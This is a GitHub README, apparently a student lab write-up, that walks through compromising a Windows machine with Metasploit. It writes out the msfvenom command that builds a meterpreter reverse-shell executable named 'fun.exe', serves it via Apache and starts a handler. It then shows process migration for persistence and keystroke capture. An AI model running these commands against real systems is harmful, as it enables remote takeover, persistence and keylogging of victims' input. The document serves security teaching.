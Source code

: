 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

# program:
Find the attackers ip address using ifconfig

# OUTPUT:
# ![Screenshot 2024-04-20 203055](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/b2888269-f599-4d87-911b-de6bdf501078)



Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

# ![Screenshot 2024-04-20 203202](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/b2d3a40a-7341-47cf-8de0-3410a840f6d9)

copy the fun.exe into the apache /var/www/html folder 
# ![Screenshot 2024-04-20 203330](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/e55aa7c5-d4a4-452f-ae71-05422bb91b35)


Start apache server sudo systemctl apache2 start

# ![Screenshot 2024-04-20 203415](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/ec6204e4-f294-4163-b4ed-3566f7618a18)


Check the status of apache2 
# ![Screenshot 2024-04-20 203507](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/bc5d0ba5-4f70-4c67-a8b0-145a687f8bcd)


# Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

# ![Screenshot 2024-04-20 203609](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/39832c70-f93e-4e98-b82a-c2e13321aca4)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
# ![Screenshot 2024-04-20 203732](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/8aa33484-d24a-4dd2-85ea-e116c306c4d6)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 
# ![Screenshot 2024-04-20 203835](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/9d7e052a-234d-49bf-afd4-9d1de17e37ea)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
# ![Screenshot 2024-04-20 203918](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/eae2d001-f110-4982-915a-297b22226b23)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# ![Screenshot 2024-04-20 204009](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/bffd2039-34a8-4bbc-bd9b-81baa236c041)


keyscan_dump Shows the keystrokes captured so far 
# ![Screenshot 2024-04-20 204104](https://github.com/DEEPAK22003907/Compromising-windows-using-Metasploit/assets/119404520/013285f8-51c1-48a8-8a51-bf584456990f)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
